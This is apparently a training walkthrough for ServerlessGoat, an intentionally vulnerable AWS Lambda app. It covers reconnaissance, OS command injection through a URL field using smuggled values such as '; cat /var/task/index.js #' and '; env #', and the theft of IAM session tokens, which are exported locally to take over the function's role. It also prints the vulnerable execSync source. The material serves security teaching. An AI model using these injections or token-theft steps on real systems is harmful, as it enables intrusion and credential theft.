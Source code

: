 ## ServerlessGoat: Lessons ##

### Lesson 1: Information Gathering ###
We begin our journey into serverless security by gathering some reconnaissance on the application. At first sight malicious users won't know that they are facing a serverless application.

#### Option 1 #### 
If the application is exposed through AWS API Gateway, the URL might have the following format:
https://{string}.execute-api.{region}.amazonaws.com/{stage}/...

#### Option 2 ####
If the application is exposed through AWS API Gateway, HTTP Response headers might contain header names such as: `x-amz-apigw-id`, `x-amzn-requestid`, `x-amzn-trace-id`

#### Option 3 ####
If the developer left unhandled exceptions and verbose error messages, these messages might contain sensitive information, which points to the fact that this is an AWS Lambda serverless application. Try to invoke the API of the convert form, using an HTTP get request, and without the `document_url` parameter in the Query string: ```https://eqfh35ixqj.execute-api.us-east-1.amazonaws.com/Prod/api/convert```

This will generate the following stack trace:
```
TypeError: Cannot read property 'document_url' of null
at log (/var/task/index.js:9:49)
at exports.handler (/var/task/index.js:25:11)
```
Looking at the stack trace, we see that the application is located in the /var/task directory, which is where AWS Lambda stores and executes your Lambda function. We also see `exports.handler`, which is a very common way to name serverless functions (i.e. the function name is `handler`, and it is defined inside `index.js`).

### Lesson 2: Reverse Engineering The Lambda Function ###
The next obvious step, is to try and gain access to the source code of the Lambda function, in order to reverse engineer and discover additional weaknesses. For this step, we will try to check whether the function is vulnerable to OS command injection.

We will blindly probe for OS command injection using a common time-based probing method - i.e. by invoking the sleep shell command.

In the URL field, enter the following value in the URL field: `https://www.puresec.io/hubfs/document.doc` - this will return the converted text. Now try the following: `https://www.puresec.io/hubfs/document.doc; sleep 1 #` and hit 'submit'. The function will run, albeit will return some garbled text. Next, we will try with a really long sleep value, which will force the function to hit the timeout configured: `https://www.puresec.io/hubfs/document.doc; sleep 5000 #`

Error message: ```{"message": "Internal server error"}```

Now we know that the application is vulnerable to OS command injection through the `document_url` parameter, and we can move on to extract its source code, by sending the following value in the URL field: `https://foobar; cat /var/task/index.js #`

This should return the source code of the function:
```
const child_process = require('child_process'); const AWS = require('aws-sdk'); const uuid = require('node-uuid'); async function log(event) { const docClient = new AWS.DynamoDB.DocumentClient(); let requestid = event.requestContext.requestId; let ip = event.requestContext.identity.sourceIp; let documentUrl = event.queryStringParameters.document_url; await docClient.put({ TableName: process.env.TABLE_NAME, Item: { 'id': requestid, 'ip': ip, 'document_url': documentUrl } } ).promise(); } exports.handler = async (event) => { try { await log(event); let documentUrl = event.queryStringParameters.document_url; let txt = child_process.execSync(`curl --silent -L ${documentUrl} | ./bin/catdoc -`).toString(); // Lambda response max size is 6MB. The workaround is to upload result to S3 and redirect user to the file. let key = uuid.v4(); let s3 = new AWS.S3(); await s3.putObject({ Bucket: process.env.BUCKET_NAME, Key: key, Body: txt, ContentType: 'text/html', ACL: 'public-read' }).promise(); return { statusCode: 302, headers: { "Location": `${process.env.BUCKET_URL}/${key}` } }; } catch (err) { return { statusCode: 500, body: err.stack }; } };
```

There's a lot to be learned from the source code:
* The application uses the AWS DynamoDB NoSQL database
* The application uses a Node.js package called node-uuid
* The application stores sensitive user information (IP address and document URL) inside the DynamoDB table, who's name is defined in the `TABLE_NAME` environment variable
* We see the cause for the OS command injection - using untrusted user input in the `child_process.execSync()` call
* The output of API invocations is stored inside an S3 bucket, which is also stored inside an environment variable - `BUCKET_URL`

### Lesson 3: Digging For Gold Inside Environment Variables ###
Let's grab the data from the environment variables by running the `env` command - in the URL field, type: `https://foobar; env #`

{Partial Values}
```
AWS_SESSION_TOKEN=XXXXXXXXXXXXX
TABLE_NAME={dynamo_table_name}
AWS_SECRET_ACCESS_KEY=XXXXXXXXXXXXX
BUCKET_NAME={bucket_name}
AWS_ACCESS_KEY_ID=XXXXXXXXXXXXX
```
First, by grabbing the 3 IAM tokens - `AWS_SESSION_TOKEN`, `AWS_SECRET_ACCESS_KEY` and `AWS_ACCESS_KEY_ID`, we can now impersonate the function's assumed execution role. For those of you who aren't familiar with the AWS IAM security model, this is an extremely granular and powerful security permissions model. Here's an excerpt from the AWS documentation on IAM roles:

```An IAM role is similar to a user, in that it is an AWS identity with permission policies that determine what the identity can and cannot do in AWS. However, instead of being uniquely associated with one person, a role is intended to be assumable by anyone who needs it. Also, a role does not have standard long-term credentials (password or access keys) associated with it. Instead, if a user assumes a role, temporary security credentials are created dynamically and provided to the user. You can use roles to delegate access to users, applications, or services that don't normally have access to your AWS resources.```

Now, given that we have the tokens generated to the function by AWS STS, we can use the tokens to invoke AWS CLI commands from our local machine. In order to do that, set these environment variables locally by running in a shell terminal:

```
export AWS_SECRET_ACCESS_KEY = ...
export AWS_ACCESS_KEY_ID = ...
export AWS_SESSION_TOKEN = ...
```

Next, you can verify that you are indeed using the function's role, by running: `aws sts get-caller-identity`.

This should return the following:
```
{
    "UserId": "xxxxxxxxx",
    "Account": "xxxxxxxxxx",
    "Arn": "arn:aws:sts::xxxxxxxxxxxx:assumed-role/aws-serverless-repository-serv-FunctionConvertRole-xxxxxxxx/aws-serverless-repository-serverle-FunctionConvert-xxxxxxxxxx"
}
```
It's clear that we are now running under the assumed role of the function.

To Be Continued...
